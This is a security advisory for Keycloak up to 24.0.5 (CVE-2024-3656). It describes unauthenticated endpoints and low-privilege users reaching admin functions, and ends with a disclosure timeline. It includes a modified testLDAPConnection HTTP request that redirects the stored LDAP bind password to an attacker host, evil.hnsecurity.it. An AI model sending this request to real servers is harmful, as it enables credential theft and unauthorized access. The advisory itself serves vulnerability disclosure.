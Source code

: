 # HN Security Advisory - https://security.humanativaspa.it/

* Title: Multiple authentication and authorization vulnerabilities in Keycloak
* Products: Keycloak <= 24.0.5
* Author: Ema Srdoc <ema.srdoc at hnsecurity.it> and Maurizio Agazzini <maurizio.agazzini at hnsecurity.it>
* Date: 2024-10-30
* CVE Names and Vendor CVSS Scores:
  CVE-2024-3656: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N  
* Advisory URLs:
  https://github.com/hnsecurity/vulns/blob/main/HNS-2024-08-Keycloak.md

# Description

Multiple issues have been identified regarding the authentication and authorization of certain endpoints in the Keycloak software.

## Unauthenticated access to certain functionalities

It has been observed that certain functionalities within Keycloak, specifically the */metrics* and */health* endpoints, are accessible without proper authentication. Even though these endpoints do not provide sensitive information, it is preferable that they are accessible only to authenticated individuals with the correct privileges.

## Unauthorized use of administrative features by low-privilege users

Additionally, users with low privileges are able to utilize administrative functionalities within the Keycloak admin interface. This issue presents a significant security risk as it allows unauthorized users to perform actions reserved for administrators, potentially leading to data breaches or system compromise. Affected endpoints are:

- /admin/realms/myrealm/client-registration-policy/providers
- /admin/myrealm/console/whoami
- /admin/realms/myrealm/testLDAPConnection

In particular, the last functionality (*testLDAPConnection*), in the event that an AD authentication system has been configured, allows to modify application data, **enabling the submission of an LDAP request and consequently the access credentials to a malicious endpoint**.

An attacker with access to a non-administrative user can modify the *connectionUrl* parameter, and the password will be sent to an attacker-controller server. To successfully execute the attack, it's also necessary to know the *componentId* related to the domain authentication, which is retrievable in the cookies K*EYCLOAK_SESSION*, *KEYCLOAK_SESSION_LEGACY*, and in the responses returned by the */admin/myrealm/console/whoami* endpoints.

Example of modified request:

``` http
POST /admin/realms/myrealm/testLDAPConnection HTTP/2
Host: idp.url
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://idp.url/admin/myrealm/console/
Authorization: Bearer [...]
Content-Type: application/json
Content-Length: 308
Origin: https://idp.url
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"connectionUrl":"ldap://evil.hnsecurity.it","bindDn":"cn=test","bindCredential":"**********","useTruststoreSpi":"","connectionTimeout":"5000","startTls":"false","authType":"simple","action":"testAuthentication","componentId":"12345-1234-1234-1234-123456789"}
```

# Affected platforms

All Keycloak versions up to and including version 24.0.5 are affected.
 
# Disclosure timeline

04/04/2024 - First communication sent with all details.
09/04/2024 - Response with request of clarifications.
09/04/2024 - More details sent.
09/04/2024 - Second reply.
09/04/2024 - [Proposed fix](https://github.com/keycloak/keycloak/pull/27629) for the first issue.
10/04/2024 - Multiple emails about the first issue.
02/05/2024 - Request for information about the second issue (which is more severe).
09/05/2024 - Response with assigned CVE-2024-3656 and request to not release any details: `For the moment there is no estimated keycloak version to include the fix`
27/05/2024 - Request for an update and  a timeline for the fix
11/06/2024 - [Advisory](https://github.com/keycloak/keycloak/security/advisories/GHSA-2cww-fgmg-4jqc) published without any notification.
